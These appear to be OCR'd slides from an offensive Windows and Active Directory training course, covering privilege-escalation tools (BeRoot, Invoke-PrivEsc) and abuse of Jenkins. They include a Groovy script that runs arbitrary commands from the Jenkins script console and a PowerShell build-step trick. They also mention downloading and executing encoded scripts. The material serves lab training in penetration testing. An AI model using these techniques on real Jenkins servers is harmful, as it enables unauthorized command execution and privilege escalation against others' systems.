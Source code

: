 BeRoot
`.\beRoot.exe`

Privesc
`Invoke-PrivEsc`

# Features Abuse

• What we have been doing up to now (and will keep doing further in the class) is relying on features abuse.

• Features abuse are awesome as there are seldom patches for them and they are not the focus of security teams!

• One of my favorite features abuse is targeting enterprise applications which are not built keeping security in mind.

• On Windows, many enterprise applications need either Administrative privileges or SYSTEM privileges making them a great avenue for privilege escalation.

# Jenkins

• Jenkins is a widely used Continuous Integration tool.

• There are many interesting aspects with Jenkins but for now we would limit our discussion to the ability of running system commands on Jenkins.

• There is a Jenkins server running on dcorp-ci (172.16.3.11) on port 8080.

• Apart from numerous plugins, there are two ways of executingcommands on a Jenkins Master.

• If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script

#### In the script console, Groovy scripts could be executed.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell –c <command>
```

• Again, you could download and execute scripts, run encoded scripts and more.

# Learning Objective 5
